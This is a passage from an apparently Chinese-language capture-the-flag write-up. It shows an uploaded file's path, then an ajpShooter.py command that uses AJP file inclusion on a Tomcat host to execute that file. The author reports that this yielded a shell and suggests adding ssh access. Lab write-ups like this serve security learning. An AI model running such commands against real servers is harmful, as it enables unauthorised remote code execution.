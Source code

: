 返回的保存路径

```
/upload/e269aa46b69f8bbbde27ddc9d84b001f/20241118074516953.txt
```

再包含一下

```
python3 ajpShooter.py http://39.99.239.70:8080/ 8009 /upload/e269aa46b69f8bbbde27ddc9d84b001f/20241118074516953.txt eval
```

![image-20241118194822936](images/6.png)

收到了shell

如果为了方便连接，可以写个ssh

# flag2
